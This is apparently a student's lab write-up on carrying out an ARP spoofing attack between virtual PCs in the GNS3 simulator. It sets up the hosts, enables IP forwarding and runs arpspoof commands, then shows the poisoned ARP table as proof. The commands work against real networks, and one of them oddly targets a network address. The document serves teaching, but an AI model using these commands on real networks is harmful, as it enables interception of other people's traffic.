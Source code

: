 Emulate an ARP spoofing attack on GNS3. You may rely on VPCs or other client appliances to emulate the client. Rely on a more sophisticated appliance to emulate the attacker. Prove that the attack is successful by monitoring the incoming and outgoing traffic via wireshark. Provide a document with corresponding images as proof.

# Setup
To GNS3 I added 2 VPC's, the MaliciousClient 19.01 as provided, and an ethernet switch.

For each VPC, I used the `ip` command to configure an IP and gateway.
```
     IP ADDRESS
PC1 192.168.1.10 
PC2 192.168.1.20
```

For the MaliciousClient, I set the IP using the following commands
```
ifconfig ens3 192.168.1.30 netmask 255.255.255.0 up
route add default gw 192.168.1.1
```

# ARP
Firstly, I had to apologize for not providing any pcap files. My desktop has died and my laptop was not able to handle the GNS3 server, the Malicious Client, and Wireshark all at once.

This was sad to learn, it has an i7 8th gen but all 8 cores were pushing 90% Utilization... It took me an entire 30 minutes or so to close Wireshark.

These are the arp tables for PC1, PC2, and the MC before initiating any attack.

# Intial State
![](initial_arp.png)

Note the arp tables for PC1 and PC2

```
PC1> arp 
00:50:79:66:68:01 192.168.1.20 ...

PC2> arp
00:50:79:66:68:00 192.168.1.10 ...
```

# Initiating the attack
First, ip forwarding must be enabled on MC with `echo 1 > /proc/sys/net/ipv4/ip_forward`

While doing so, it's important to have PC1 and PC2 ping each other every once and a while to simulate a connection. I chose to have only PC1 ping PC2.

In order to execute the task as fast as possible, I appened the two arpspoof commands like so:

```
arpspoof -t 192.168.1.1 192.168.1.0 & arpspoof -t 192.168.1.10 192.168.1.1
```

Once the commands execute, MC's stdout will start dumping arp replies. See below.

![](during_atk.png)

# Aftermath
After recieving confirmation from stdout, I check PC1's arp table. The MAC address is now set to the MC's MAC address, proving the attack has worked.

```
PC1> arp
0c:08:14:c9:c4:00 192.168.1.1 ...
```

![](arp_after.png)